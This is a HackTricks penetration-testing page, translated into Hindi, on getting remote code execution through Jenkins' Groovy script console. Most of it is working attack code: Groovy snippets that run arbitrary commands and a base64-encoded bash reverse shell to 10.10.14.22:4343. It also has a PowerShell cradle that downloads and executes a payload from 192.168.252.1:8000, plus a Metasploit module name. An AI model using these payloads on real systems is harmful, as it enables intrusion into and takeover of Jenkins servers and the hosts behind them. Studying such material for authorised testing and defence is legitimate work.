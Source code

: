 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

यह जेनकिंस में एक नया प्रोजेक्ट बनाने की तुलना में कम शोर करता है

1. _path\_jenkins/script_ पर जाएं
2. टेक्स्ट बॉक्स के अंदर स्क्रिप्ट डालें
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
आप एक कमांड का उपयोग करके निष्पादित कर सकते हैं: `cmd.exe /c dir`

**लिनक्स** में आप कर सकते हैं: **`"ls /".execute().text`**

यदि आपको टेक्स्ट के अंदर _कोट्स_ और _सिंगल कोट्स_ का उपयोग करने की आवश्यकता है। आप _"""PAYLOAD"""_ (ट्रिपल डबल कोट्स) का उपयोग करके पेलोड को निष्पादित कर सकते हैं।

**एक और उपयोगी ग्रोवी स्क्रिप्ट** है (स्थानापन्न \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### लिनक्स में रिवर्स शेल
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windows में रिवर्स शेल

आप एक PS रिवर्स शेल के साथ HTTP सर्वर तैयार कर सकते हैं और इसे डाउनलोड और निष्पादित करने के लिए Jeking का उपयोग कर सकते हैं:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

आप इस प्रक्रिया को [**इस स्क्रिप्ट**](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py) के साथ स्वचालित कर सकते हैं।

आप रिवर्स शेल प्राप्त करने के लिए MSF का उपयोग कर सकते हैं:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
